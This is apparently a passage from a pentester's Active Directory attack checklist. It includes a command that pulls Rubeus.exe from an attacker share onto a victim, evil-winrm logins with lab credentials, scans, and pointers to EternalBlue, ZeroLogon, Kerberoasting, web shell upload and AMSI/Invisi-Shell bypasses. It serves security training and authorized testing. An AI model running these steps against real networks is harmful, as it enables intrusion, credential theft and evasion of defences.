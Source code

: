   - An example: from PowerShell of the victim, download Rubeus.exe with the command `Copy-Item -Path "\\<kali_IP>\share\Rubeus.exe" -Destination "C:\Users\username\Desktop"`
- Certificate signing request for WinRM: https://0xdf.gitlab.io/2019/06/01/htb-sizzle.html
  - WinRM shell: https://raw.githubusercontent.com/Alamot/code-snippets/master/winrm/winrm_shell.rb
- NTLM Auth: https://0xdf.gitlab.io/2019/06/01/htb-sizzle.html#beyond-root---ntlm-auth
- Not all the usernames found are always the ones that work. For example: you might find autologon creds `svc_loanmanager:Moneymakestheworldgoround!` which however lead to login with `evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'`
- Every time that you think about Active Directory, think about a Forest, not a Domain. If one domain is compromised, so it is the entire forest. Whithin a forest, all the domains trust each others. This is why a forest is considered a security boundry.


## Initial foothold
- [ ] run `responder` + `mitm6`
- [ ] Scans to run
  - `enum4linux -a -u "" -p "" <IP>`
  - `nmap -Pn -T4 -p- --min-rate=1000 -sV -vvv <IP> -oN nmap_results`
  - `nmap -p- -A -nP <IP> -oN nmap_results`
  - `dig @<IP> AXFR <domain>`
  - `dnsenum <IP>`
- After this
  - [ ] 53, zone transfer + info collection
  - [ ] 139/445 Check SMB / smbclient
    - check upload of web shells / phishing
    - check eternal blue
    - check default creds
  - [ ] 389 Check ldapsearch
    - use windapsearch.py
    - try LDAP Pass-back attack
  - [ ] Check rpcclient
  - [ ] Check all services in scope, like web vulnerabilities, ftp etc.
  - [ ] Check ZeroLogon
  - [ ] Check default creds
    - also in Printers, [Jenkins](../system-attacks/#jenkins) etc.
  - [ ] Check other sections of [EasyG](https://github.com/seeu-inspace/easyg)
  - [ ] 464 kpasswd -> try Kerberoast
  - [ ] Test NFS -> port 111, 2049 (check it even if nmap doesn't mark it as NFS)
  - [ ] If you find creds / hashes, try:
    - crackmapexec to see a reuse of creds
    - evil-winrm
    - enum4linux with creds
      - see descriptions for possible creds
    - SMB
    - LDAP
- Access to the domain
  - [ ] Use [Invisi-Shell](https://github.com/OmerYa/Invisi-Shell) to bypass the security controls in PowerShell
  - [ ] Run AMSI bypass
  - [ ] See [#Notes](#notes) for Cheat sheets and detections bypasses if needed
  - [ ] Enumerate with [PowerView](#powerview), [ADModule](#admodule), [BloodHound](#bloodhound)
  - [ ] [Active Directory Authentication Attacks](#active-directory-authentication-attacks)
  - [ ] Check: 
    - [Active Directory Methodology | HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
    - [WADComs](https://wadcoms.github.io/)
    - [Cheat-Sheet - Active-Directory](https://github.com/drak3hft7/Cheat-Sheet---Active-Directory/)
- PrivEsc / Post Access
  - [ ] [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) run `Invoke-AllChecks`
  - [ ] Run Seatbelt first, then winPEAS
  - [ ] See [system-attacks#windows-privilege-escalation](../system-attacks#windows-privilege-escalation)